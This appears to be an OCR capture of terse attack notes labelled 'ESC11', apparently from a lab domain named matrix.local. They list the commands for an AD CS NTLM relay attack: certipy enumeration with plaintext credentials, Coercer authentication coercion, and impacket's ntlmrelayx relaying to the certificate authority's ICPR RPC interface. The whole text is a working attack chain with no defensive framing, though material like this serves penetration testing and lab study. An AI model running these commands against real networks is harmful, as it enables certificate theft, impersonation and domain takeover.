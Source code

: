 # ESC11
python3 -m venv venv
source venv/bin/activate
pip3 install certipy-ad

https://<IP_ADDRESS>/certsrv

certipy find -vulnerable -u trinity@matrix.local -p 'Password123!' -dc-ip 172.16.5.10

git clone https://github.com/p0dalirius/Coercer.git
cd Coercer
pip install -r requirements.txt


python3 Coercer.py coerce -t 172.16.5.50 -u trinity -p 'Password123!' -d matrix.local -l 172.16.5.101




git clone https://github.com/sploutchy/impacket.git
cd impacket
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt


python3 examples/ntlmrelayx.py -t rpc://172.16.5.10 -rpc-mode ICPR -icpr-ca-name matrix-DC01-CA -smb2support
